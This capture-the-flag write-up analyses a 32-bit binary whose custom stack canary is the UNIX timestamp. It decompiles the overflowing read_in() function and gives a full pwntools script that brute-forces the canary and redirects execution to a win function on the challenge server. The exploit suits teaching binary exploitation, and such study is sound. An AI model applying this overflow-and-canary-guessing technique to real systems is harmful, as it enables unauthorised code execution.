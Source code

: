 The first thing I do to this file s to run the file and checksec commands to see what basic protection it has.  it is in 32 bit with  PIE disabled but it has NX. It also says it has no stack canary so the canary must be added at the runtime of the program.

I then run it in ghidra
```
  local_14 = popen("date +%s","r");
  if (local_14 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_20,12,local_14);
  pclose(local_14);
  global = strtol(local_20,(char **)0x0,10);
```
I can see from this snippet of code that it opens a file and get the UNIX timestamp, it then stores it and then turns it into a long and sets global equal to it. It then runs the readin() function with global as its parameter.

```
void read_in(int param_1)

{
  undefined1 local_58 [72];
  int local_10;
  
  local_10 = param_1;
  read(0,local_58,140);
  if (local_10 != global) {
    puts("****Stack Smashing Detected!!!****\nExiting now.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```
Inside of readin() there is a read that allows for a buffer overflow! But then it checks the canary that is that global variable from before.

From there it is a normal ret2win with a canary but the I imported the time library so that I could also get the current timestamp for the canary value. When running remotely sometimes the time would have a slight discrepancy. I solved this by sending it in a loop and adjusting an offset from the original time.

```python
#!/usr/bin/env python3
import time
from pwn import *

# target info
HOST = "www.cweaccessionsctf.com"
PORT = 1315

# gadgets / offsets
WIN_ADDR = 0x080491f6
BUFFER_OFFSET = 72
PAD_AFTER_CANARY = 12

def try_canary(canary):
    """
    Open a fresh connection, send the payload with our guessed canary,
    and return the process object so caller can check its output.
    """
    p = remote(HOST, PORT)
    # if the binary prints a prompt, sync up here:
    # p.recvuntil(b"Enter your data:") 

    payload  = b"A" * BUFFER_OFFSET
    payload += p32(canary)
    payload += b"B" * PAD_AFTER_CANARY
    payload += p32(WIN_ADDR)

    p.sendline(payload)
    return p

if __name__ == "__main__":
    # base time—sync with the server’s time() if you can
    base = int(time.time())

    for i in range(0, 10):
        guess = base + i
        log.info(f"[*] attempting canary = 0x{guess:08x}")
        p = try_canary(guess)

        # give the remote a moment to respond
        time.sleep(0.1)

        # read whatever comes back
        try:
            data = p.recvall(timeout=1)
        except EOFError:
            data = b""

        # look for your flag in the output
        if b"CWE{" in data or b"flag" in data.lower():
            log.success(f"FOUND! canary=0x{guess:08x}")
            print(data.decode(errors="ignore"))
            p.interactive()
            break

        # if it wasn’t the right canary, close and loop
        p.close()
    else:
        log.error("All attempts failed.")


```

CWE{fly_away_little_canary_TZ4gELYH}
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE1MzIyMzkwNjMsNTA0MTQ4NDA2XX0=
-->